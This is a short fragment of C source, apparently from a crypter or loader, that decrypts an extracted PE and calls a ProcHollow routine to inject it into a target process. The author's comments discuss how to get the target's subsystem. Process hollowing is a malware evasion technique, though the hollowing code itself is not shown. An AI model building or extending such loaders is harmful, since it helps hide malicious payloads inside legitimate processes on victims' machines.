{
printf("[-] subsystem not recognised \n[*] exiting...");
return EXIT_FAILURE;
}
printf("[*] hollowing target process and injecting decrypted PE... \n");
// the subsystem provided here should be that of the target process.
// i don't know where to get that atm (without loading the target process into meomry and reading its pe header, which seems excessive)
ProcHollow(extracted_pe, target_process, extracted_pe_subsystem);
return 0;
}